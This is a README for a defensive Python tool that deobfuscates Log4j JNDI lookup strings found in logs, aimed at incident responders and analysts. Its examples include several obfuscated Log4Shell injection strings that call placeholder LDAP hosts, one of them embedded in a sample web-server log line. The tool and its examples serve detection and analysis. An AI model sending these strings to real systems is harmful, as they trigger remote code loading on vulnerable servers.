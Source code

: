 # jndi_deobfuscate.py
## Purpose
This tool processes text logs to look for Java Naming and Directory Interface (JNDI) lookup strings, and outputs deobfuscated strings when it finds them. Deobfuscated strings can be used by other tools (not included), in order to retrieve malicious payloads from an attacker. JNDI lookup strings came into spotlight during a recent series of Common Vulnerabilities and Exposures (CVEs) around a popular Java logging library, Apache Log4j. 

## Who is this for
Information Security folks, particularly people who work in incident response, red teams, blue teams, malware analysis, threat intelligence, digital forensics, reverse engineering, or other security analyst/security engineering roles.

Relevant Team Keywords: CERT, CSIRT, DFIR, SOC, RE, TI


## Why is this necessary
Generally speaking, attackers attempt to exploit recent CVEs by sending data that includes a maliciously crafted string ('attack string'), to a target system. The basic attack string is a fairly predictable format, such as `${jndi:schema://hostname:port/path}`. To avoid detection, attackers will use other JNDI Java lookup features, so that their attack strings are hidden: The previous attack string, `${jndi:schema://hostname:port/path}`, can also be rendered as `${${lower:jndi}:schema://hostname:port/path}`, in addition to a nearly unlimited number of combinations of other language features.

## Examples of processed data: 
### Example 1: Obscured Schema (lower/upper)
- Input: `${${lower:${lower:jndi}}:ld${lower:ap}://192.0.2.1}`
- Output: `${jndi:ldap//192.0.2.1}`

### Example 2: System Variables Inserted
- Input: `${$jndi://${env:hostname}.example.com/maliciouspayload}` 
- Output: `${jndi://ENV_VAR_HOSTNAME.example.com/maliciouspayload}`

### Example 3: Obscured Schema (Unresolved Variables) 
- Input: `${jn${env:ENV_NAME:-d}i${env:ENV_NAME:-:}${env:ENV_NAME:-l}d${env:ENV_NAME:-a}p${env:ENV_NAME:-:}//192.0.2.1}:8081/malware}`
- OUtput: `${jndi:ldap://192.0.2.1}:8081/malware}`

### Example 4: Parsing example 1, where attack string is contained in a webserver log
- Input: `192.0.2.1 - - [30/Feb/2022:13:37:10 +0000] "GET /?p=${${lower:${lower:jndi}}:ld${lower:ap}://192.0.2.1} HTTP/2.0" 200 5316 "https://example.com/?p=${${lower:${lower:jndi}}:ld${lower:ap}://192.0.2.1}" "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36" "2.75"`
- Output: `${jndi:ldap//192.0.2.1}`


## Usage:
### Process a text file for obfuscated JNDI strings:
`./jndi_deobfuscate.py -f FILENAME_HERE.txt`

### Process a single string:
`./jndi_deobfuscate.py -s '${${lower:${lower:jndi}}:ld${lower:ap}://1.2.3.4:1389/t}'`

### To view debug information, add the -v flag
`./jndi_deobfuscate.py -v -s '${${lower:${lower:jndi}}:ld${lower:ap}://1.2.3.4:1389/t}'`


## References:
- [Apache Blog entry, discussing recent CVEs](https://blogs.apache.org/foundation/entry/apache-log4j-cves)
- [Microsoft Security Blog, on detecting attacks](https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/)
- [Florian Roth GitHub Gist, on detecting attacks](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b)
- [Apache Documentation on Lookup Strings](https://logging.apache.org/log4j/log4j-2.3/manual/lookups.html)


## Known Issues:
### Only processes the first JNDI string identified, per line. 
 - Input: `${jndi:ldap://example.com/1} some text ${jndi:ldap://example.com/2}`
 - Output: `${jndi:ldap://example.com/1}`

### Unit Tests Lacking
 - Need more real-world samples
 - Need more tests for each individual component of processing
 - Need to test for exhaustive recursion (current samples take ~1-3 rounds of processing. Would like items in the 20+ range, to ensure correctness.)
 - Regexs can be complex: Need unit tests on each regular expression.

### Code is slow
 - Optimization Possibilities:
     - skipping recursion where not necessary
     - more effective regexs, instead of adding code/loops to make up for loose regex matching (note: add test cases before tightening regexs)
     - more/better parallelization

### Code needs more error checking
 - Take into account defensive programming principles
 - Take into account adversary abuse
     - Can an attacker exhaust your resources, if they know you are running this?
     - Can an attacker block follow-on requests, when the attacker can tell that an obfuscated JNDI string has been processed by this script?

### Code needs better documentation
 - Better describe inputs/outputs of each method
 - Describe why/why not each code path is taken